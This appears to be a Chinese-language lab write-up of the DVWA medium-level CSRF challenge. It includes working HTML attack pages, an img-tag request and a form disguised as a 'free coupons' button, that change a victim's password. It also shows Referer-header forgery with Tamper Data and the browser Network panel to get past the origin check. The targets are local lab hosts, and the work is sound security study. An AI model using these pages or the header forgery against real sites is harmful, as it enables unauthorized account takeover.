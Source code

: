 # Cross Site Request Forgery (CSRF)

> Medium Level
For the medium level challenge, there is a check to see where the last requested page came from. The developer believes if it matches the current domain, it must of come from the web application so it can be trusted.
It may be required to link in multiple vulnerabilities to exploit this vector, such as reflective XSS.

看提示有寫說後端會判斷 request 是否來自同一個網域，代表我必須在 DVWA 以外的網域建立一個惡意頁面模擬攻擊場景

現在瀏覽器也有 CORS 限制，也就是禁止不同網域的請求，因此要克服這兩個因素

跨來源資源共用（CORS） - HTTP | MDN
[https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/CORS)

要繞過 CORS 和 request 來源檢查我大概會參考到至少這兩個條件:

1. 將 request 轉為後端傳送，這樣就可以突破瀏覽器的 CORS 限制 (但前提是你需要有對方的 cookie 或 csrf token)
2. 更改 request header 裡的 `Referer` 欄位以偽照來源

但是不同域名的話就無法取得 user 的 cookie 內的 PHPSESSIONID 🤔，不知道有沒解法 ?

## Test trigger CSRF attack from other domain

### By GET img tag

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by GET</title>
</head>
<body>
set password to: 1111
<img src="http://localhost:8086/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change">
<script>
  console.log(`your cookie is: ${document.cookie}`)
</script>
</body>
</html>
```
先建立一個測試用的 server，用來放惡意攻擊頁面

惡意頁面網址:

```
http://192.168.0.196:8080/get-img.html
```

瀏覽器會將 DVWA 的網址 http://localhost:8086/vulnerabilities/csrf/ 和惡頁面的網址視為不同域名

### 假裝是受害者被騙連到惡意網頁

![假裝是受害者被騙連到惡意網頁](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/630b70ea-e67c-4c69-95c4-27e344b54cf1/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T035944Z&X-Amz-Expires=86400&X-Amz-Signature=955a6e04aab80743535c1d6832bfb43a1c9890caecd5687015623c89d56627e5&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![假裝是受害者被騙連到惡意網頁](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f98de600-4844-4322-9e72-f7a4b79eb39f/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040004Z&X-Amz-Expires=86400&X-Amz-Signature=891412560875d25c96a1e88d1b3607cb05ca6f1f3286ff62d9c71f894c9bbb08&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)



### failed

![failed](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/116efe83-b65d-40f8-b247-db202fcd8eb5/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040058Z&X-Amz-Expires=86400&X-Amz-Signature=454d5731f61897edb5d6eff1457ed3715c5a0ed4e63e1fa7a17d1c0e11b1ab73&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

看來沒有效，失敗 😭，get img tag 的方式沒辦法用於不同域名的場景

---
### By GET Form

這邊是參考別人的 writeup，做一個 GET form 從惡意頁面跳轉到目標網域的頁面

為了方便觀察就不隱藏表單了

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by POST</title>
  <script src="https://unpkg.com/axios/dist/axios.min.js"></script>
</head>
<body>
set password to: 1111

<form action="http://localhost:8086/vulnerabilities/csrf/" method="get">
  <input type="xhidden" name="password_new" value="1111"/>
  <input type="xhidden" name="password_conf" value="1111"/>
  <input type="hidden" name="Change" value="Change"/>
  <input type="submit" value="Get free coupons 💸💸💸"/>
</form>
</body>
</html>
```
塞一個 form 給受害者點下去跳轉，理論上應該是可以，但實在是太可疑了XD，會讓人起疑心 除非能夠在瞬間又跳轉到其他頁面，目前想到的可能的場景是分享,重設密碼,串這跳轉這類功面能性頁，這類功能通常是一瞬間就被重導走，而且帶有參數可以讓你指定接下來要跳轉到哪邊去

另一種場竟是我已經拿下 DVWA 網域的某個頁面，再讓受害者跳轉到這個 CSRF 頁面

![That request didn't look correct.](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b7a07cdb-ac3b-4044-916e-7afb3ecc3136/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T040207Z&X-Amz-Expires=86400&X-Amz-Signature=bf76732e0fc0d3fc22214d2d5032a28bb19612965faaa2ddd7385b167f72f27c&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```html
That request didn't look correct.
```
### Intercept and change Referer value (Tamper Data)

想辦法讓 header 變成跟 DVWA 的一樣，要做到這件事必須從中攔截再修改

可以使用 Tamper Data 或 Burp Suite

Tamper Data for FF Quantum – 下載 🦊 Firefox 擴充套件（zh-TW）
[https://addons.mozilla.org/zh-TW/firefox/addon/tamper-data-for-ff-quantum/](https://addons.mozilla.org/zh-TW/firefox/addon/tamper-data-for-ff-quantum/)

```
Referer http://localhost:8086/vulnerabilities/csrf/
```

進入惡意頁面，按下送出
![tamper data](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/b443baeb-2271-4740-a2a1-d4dc91ebfcb2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T042909Z&X-Amz-Expires=86400&X-Amz-Signature=b739b0c296058934c70baa36083ad5a60834826f25c361712540ad2e03b40ff2&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![tamper data](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/073b8349-3065-4c67-bc95-be0f1b5766e8/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043047Z&X-Amz-Expires=86400&X-Amz-Signature=1b5d13c018618efa63b9e882681f2c153331fd0e01b166de83cfe8c324c609a7&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

Before
![before](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/9805fb6d-c1aa-45e6-92d9-1e0f1ffab0b2/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043129Z&X-Amz-Expires=86400&X-Amz-Signature=05f02453502fe2c30030cf8c52d5adc52d88725885f62cd5a23ffcc14d980abc&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

After
![after](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/2f621a8d-c2ce-4644-8b0c-a4196e319e08/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043150Z&X-Amz-Expires=86400&X-Amz-Signature=8a9e0410a8b49b52995111f5fc24d0868bce8cf9306b0388812409699325f548&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### Done
![done](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/d7d4cba8-ace3-4196-8ff6-26bd1fdaaa8e/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043241Z&X-Amz-Expires=86400&X-Amz-Signature=8816c29b3c2ccc0c2cb00cd0fd52306e06ba17f5d4593d19ea5235ead428cb37&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

---

### 夠過用 Network panel 修改
接下來所做的操作跟之前使用 tamper data 的流程差不多，只是工具不同

如果有在 browser tool 設定頁面開啟 log 紀錄保存的話就可以看到跳轉後的 request，接著再回到惡意頁面修改 Referer

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/ff68ec45-3783-469d-9738-5b85a5306a60/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043642Z&X-Amz-Expires=86400&X-Amz-Signature=42e39ee3f3f43b2d00e5d3971eb147c62c6789801014a0a65a1e1b7a803d8d8e&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/1018f2c6-3b16-4d66-84e5-7431140aaf78/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043716Z&X-Amz-Expires=86400&X-Amz-Signature=7b849c91ad9ea168a1d0fbdb163113c3f5e600892a57557875363878306a9b14&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/4fbf987c-624b-4db2-9ed7-75667d4ab672/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220215%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220215T043725Z&X-Amz-Expires=86400&X-Amz-Signature=a086b6e7d76a207395be244386fc8f2b29f47f102fab47fd0c63c724fc655ce4&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)
